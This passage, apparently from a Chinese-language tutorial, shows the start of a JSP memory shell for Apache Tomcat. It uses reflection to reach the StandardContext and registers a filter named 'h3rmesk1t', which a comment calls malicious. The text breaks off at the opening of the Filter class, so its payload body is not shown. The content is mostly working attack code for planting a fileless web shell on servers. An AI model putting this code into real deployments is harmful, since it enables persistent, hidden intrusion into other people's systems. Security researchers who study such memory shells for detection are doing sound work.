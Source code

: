 ![](img/11.png)

#### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    // 通过反射获取standardContext
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    String filterName = "h3rmesk1t";
    Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigs.setAccessible(true);
    Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

    // 设置恶意的Filter
    if (filterConfigsMap.get(filterName) == null) {
        Filter filter = new Filter() {
            @Override
```